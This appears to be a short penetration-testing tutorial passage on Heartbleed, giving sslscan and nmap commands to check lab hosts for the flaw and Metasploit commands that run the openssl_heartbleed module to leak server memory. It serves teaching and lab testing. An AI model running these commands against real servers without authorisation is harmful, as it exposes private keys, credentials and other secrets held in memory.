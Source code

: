 # Heartbleed

First we need to investigate if the https-page is vulnerable to [heartbleed](http://heartbleed.com/)

We can do that the following way.

```
sudo sslscan 192.168.101.1:443
```

or using a nmap script

```
nmap -sV --script=ssl-heartbleed 192.168.101.8 
```

You can exploit the vulnerability in many different ways. There is a module for it in burp suite, and metasploit also has a module for it.

*```
use auxiliary/scanner/ssl/openssl_heartbleed
set RHOSTS 192.168.101.8
set verbose true
run
```


